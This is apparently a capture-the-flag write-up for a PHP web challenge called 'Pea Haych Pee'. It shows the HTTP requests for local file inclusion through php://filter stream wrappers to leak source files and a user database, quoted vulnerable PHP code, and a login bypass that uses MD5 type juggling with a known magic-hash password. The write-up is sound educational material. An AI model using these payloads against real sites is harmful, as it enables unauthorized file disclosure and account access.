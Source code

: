 ```yaml
---
toc: true
title: MACS Web
description: MACS Web
date: 2023-11-25
author: Duc Anh Nguyen
---
```


## 1. [Pea Haych Pee](../image/macs_web/1700915309736.png)

The web reads the `page` parameter, fetches the file whose filename is the same as `page` value, and includes it in the response. By sending a random page name that does not exist (locally) in their server, it can be deduced that they are using php include function to add the file content to the response.

```http
GET /mainsite/?page=test.php HTTP/1.1
Host: chal2.macs.codes:4023
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Sun, 26 Nov 2023 03:45:52 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.34

<br />
<b>Warning</b>:  include(test.php): failed to open stream: No such file or directory in <b>/var/www/html/mainsite/index.php</b> on line <b>14</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'test.php' for inclusion (include_path='.:/usr/local/lib/php') in <b>/var/www/html/mainsite/index.php
```

Use `include` to exploit the LFI vulnerability. When you use php:// with include or require, you're essentially telling PHP to treat the specified stream as if it were a file, allowing you to read from it or write to it as needed.

Read the code in index.php by sending this request:

```
GET /mainsite/?page=php://filter/convert.base64-encode/resource=index.php HTTP/1.1
Host: chal2.macs.codes:4023
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://chal2.macs.codes:4023/mainsite/index.php?page=contact
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

Source code is leaked:
```php
<?php
	include("header.php");
	$page = $_GET['page'];
	if(isset($page) && strlen("$page") !== 0) {
		while(substr_count($page, '../', 0)) {
 			$page = str_replace('../', '', $page);
		};
		while(substr_count($page, 'flag', 0)) { //you can't just include the flag you cheeky buggers, try harder!!!
			$page = str_replace('flag', '', $page);
		}
		if($page[0] === '/') {
			$page = substr($page, 1);
		}
		include("$page");
	}
	include("footer.php");
?>
```
However, there is a filter to forbid extracting the flag so I check out the header.php file. Below is a snippet.

```php
		    <?php
                    // echo '<li class="nav-item"><a href="secret_gymso_admin/index.php">Admin - Not Complete</a></li>';
    ?>
```

Read `/var/www/html/secret_gymso_admin/index.php` with stream wrappers:

```html
<form class="login100-form validate-form" method="post" action="../mainsite/login_toBeFinished.php">
	<span class="login100-form-title p-b-55">
		Login
    </span>
```

Read `/var/www/html/mainsite/login_toBeFinished.php` with stream wrappers: 

```php
<?php
	session_start();
	$username = $_POST["username"];
	$password = $_POST["password"];
	$myPDO = new PDO('sqlite:database_toBeFinished.db');
	$stmt = $myPDO->prepare("SELECT * FROM users WHERE username = ?");
	$stmt->execute(array("$username"));
	if($row = $stmt->fetch()) {
		$databasePassword = $row[1];
		if($databasePassword == md5("$password")) {
			$_SESSION['password'] = $password;
			//print_r(file_get_contents('../v/flag.php4'));
			header('Location: /secret_gymso_admin/flag.php');
		}
		else {
			header('Location: /secret_gymso_admin/index.php');
		}
	}
	else {
		header('Location: /secret_gymso_admin/index.php');
	}
?>

```

There is a database in the folder, try reading `/var/www/html/mainsite/database_toBeFinished.db` with stream wrappers, and the username and password (in MD5) are leaked:

```sqlite
joseph 0e087333482131113740957780965295
```

The code is vulnerable in its comparison between $databasePassword and md5("$password"). It uses loose type comparison and therefore it's vulnerable to [PHP Type Juggling](https://medium.com/@codingkarma/not-so-obvious-php-vulnerabilities-388a3b7bf2dc). The output of the `md5` function is a string and `$databasePassword`` value is going to be "0e087333482131113740957780965295" for user Joseph:

```php
md5(string $string, bool $binary = false): string
```

The loose type comparison is pretty funky and you can read more about it here: [PHP Loose Type](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf). Basically:

`0e08733 == 0e12345 is True`
So we have to find a password when hashed gives out a value that starts with `0e`. Consult [Magic Hash](https://github.com/spaze/hashes/blob/master/md5.md) and we know we can use a value of 240610708 for the password. Login with username joseph/ password 240610708 and we can obtain the flag. 
